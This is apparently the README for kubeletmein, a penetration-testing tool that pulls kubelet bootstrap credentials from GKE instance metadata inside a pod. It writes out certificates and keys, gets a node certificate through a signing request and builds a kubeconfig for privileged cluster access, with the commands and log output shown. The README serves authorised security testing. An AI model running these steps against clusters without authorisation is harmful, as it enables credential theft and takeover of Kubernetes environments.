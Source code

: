 # Kubeletmein

This is a simple penetration testing tool which takes advantage of public cloud provider approaches to providing kubelet credentials to nodes in a Kubernetes cluster in order to gain privileged access to the k8s API. This access can then potentially be used to further compromise the applications running in the cluster or, in many cases, access secrets that facilitate complete control of Kubernetes.

## How it works

`kubeletmein` is a simple Go binary that is designed to be run from a pod inside your target cluster. Typically this will be either via exploiting a weakness in a web application running on Kubernetes or, perhaps an internal penetration test where the client has given you exec access into a pod.

It reads kubelet credentials from the cloud provider metadata and configures a kubeconfig file that you can use with `kubectl` to access the API.

There's more info in our blog post at [https://www.4armed.com/blog/hacking-google-kubernetes-engine-part1/](https://www.4armed.com/blog/hacking-google-kubernetes-engine-part1/).

## Supported providers

### GKE

Currently only GKE is supported and it relies on the metadata concealmeant being disabled (the default setting).

### EKS

I'm working on support for EKS. It's actually a lot easier to exploit this on EKS than GKE.

### AKS

I should probably look at Azure at some point but....Microsoft. ;-)


## Installation

It's a single binary compiled for Linux. Download it with `cURL` or `wget` from the releases page at [https://github.com/4armed/kubeletmein/releases](https://github.com/4armed/kubeletmein/releases).

## How to

### GKE

On GKE kubeletmein is a two stage process. First we write out a bootstrap-kubeconfig using the certificates and key from the `kube-env` instance attribute. Then we generate a certificate sigining request and use the bootstrap config to submit it to the API for approval.

```
~ $ kubeletmein gke bootstrap
2018-11-29T21:21:26Z [ℹ]  writing ca cert to: ca-certificates.crt
2018-11-29T21:21:26Z [ℹ]  writing kubelet cert to: kubelet.crt
2018-11-29T21:21:26Z [ℹ]  writing kubelet key to: kubelet.key
2018-11-29T21:21:26Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2018-11-29T21:21:26Z [ℹ]  wrote bootstrap-kubeconfig
2018-11-29T21:21:26Z [ℹ]  now generate a new node certificate with: kubeletmein gke generate
```

Then we download the certificate and configure `kubeconfig`.

```
~ $ kubeletmein gke generate -n gke-cluster19-default-pool-6c73beb1-wmh3
2018-11-29T21:23:33Z [ℹ]  using bootstrap-config to request new cert for node: gke-cluster19-default-pool-6c73beb1-wmh3
2018-11-29T21:23:33Z [ℹ]  got new cert and wrote kubeconfig
2018-11-29T21:23:33Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
```

Now you can use the kubeconfig, as it suggests.

```
kubectl --kubeconfig get pods
```

### EKS

Coming soon.....


## Contributing

Please submit pull requests on a separate branch. We welcome all improvements. It's not the world's best bit of code.

Please raise issues on GitHub if you find any, including feature requests.

## Disclaimer

This is intended for professional security testing or research. We subscribe to the DBAD philosophy.

